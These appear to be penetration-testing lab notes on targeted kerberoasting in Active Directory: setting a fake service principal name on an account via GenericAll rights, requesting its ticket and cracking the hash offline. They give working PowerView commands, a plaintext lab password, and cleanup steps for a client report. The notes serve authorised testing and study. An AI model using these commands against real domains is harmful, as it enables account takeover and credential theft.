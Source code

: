 if we have GenericALL rights over this account, we can modify the account's SPN to create a SPN that we can then kerberoast to obtain the TGS ticket and hopefully crack the hash offline using hashcat

or if we have access to change the SPN 
## Creating a fake SPN
```
$SecPassword = ConvertTo-SecureString 's3rvice' -AsPlainText -Force

$Cred = New-Object System.Management.Automation.PSCredential('HTB\svc-alfresco', $SecPassword) 
```

```powershell-session
Set-DomainObject -Credential $Cred -Identity cyril -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
```
We could use the tool [targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast) to perform this same attack from a Linux host, and it will create a temporary SPN, retrieve the hash, and delete the temporary SPN all in one command.

then we can just kerberoast new user with rubeus [[4 Kerberoasting]]

During cleanup
we need to undo all the things we did like creating fake SPN, adding user to group, changing password etc 

removing fake spn
```
Set-DomainObject -Credential $Cred2 -Identity adunn -Clear serviceprincipalname -Verbose
```

removing user from group
```
Remove-DomainGroupMember -Identity "Help Desk Level 1" -Members 'damundsen' -Credential $Cred2 -Verbose

Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName |? {$_.MemberName -eq 'damundsen'} -Verbose
```

Even though we performed as much cleanup as possible, we should still include every modification that we make in our final assessment report.